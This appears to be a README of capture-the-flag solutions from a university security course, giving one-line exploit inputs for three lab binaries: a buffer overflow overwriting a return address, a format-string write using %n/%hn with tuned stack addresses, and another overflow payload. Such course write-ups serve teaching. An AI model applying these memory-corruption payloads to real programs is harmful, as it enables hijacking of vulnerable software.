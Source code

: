 # PWN
### Flags captured in Computer Security Course held by Prof. Barenghi @ PoliMi

## First exploit - Mission 0: Ooh Easy

#### solution 1 (Exerciser Syle)
```bash
./mission0 < <(python -c "import sys;sys.stdout.write('\x3d\x07\x01\x01' + 'A'*8 + '\xab\x85\x04\x08')")
```
#### solution 2 (Personal Style)
```bash
./mission0 < <(python -c "print('\x3d\x07\x01\x01' + 'A'*8 + '\xab\x85\x04\x08')" )
```
<br><br>

## Second exploit - Mission 1: Aye Captain!

#### Step 1 - gdb n00b sol 
```bash
set args < <(python -c 'print"\x70\xd0\xff\xff" + "%134513911c" + "%4$n"')
```
#### Step 2 - gdb pro sol
```bash
set args < <(python -c 'print"\x72\xd0\xff\xff\x70\xd0\xff\xff%2044c%4$hn%31991c%5$hn"')
```

#### Step 3 - gdb pro sol [on necst machine]
```bash
set args < <(python -c 'print"\xa2\xc5\xff\xff\xa0\xc5\xff\xff%2044c%4$hn%31991c%5$hn"')
```

#### Step 4 - Road to clean sol [on necst machine]
let's find the offset on the stack due to gdb, just run the executable with this input on the shell with and without gdb. the offset will be [ADDR GDB] - [ADDR]
```bash
%22$x
```
#### Step 5 - clean sol [on necst machine]
```bash
./mission1 < <(python -c 'print"\xd2\xc5\xff\xff\xd0\xc5\xff\xff%2044c%4$hn%31991c%5$hn"') 
```

#### Step 6 - save the exploit on a file
```bash
(python -c 'print"\xd2\xc5\xff\xff\xd0\xc5\xff\xff%2044c%4$hn%31991c%5$hn"') > exploit
```

#### Step 7 - drop tha bomb, just create a file with the python script called exploit, and send to our executable ( - is for keep STDIN open)
```bash
cat exploit - | ./mission1
```
<br><br>

## Third exploit - Mission 2: Birdwatching
```bash
./mission2 < <(python -c "import sys; sys.stdout.write('AAAA' + '\x00' + '\x90'*140 + 'AAAA' + '\x00')")
```

<br><br>

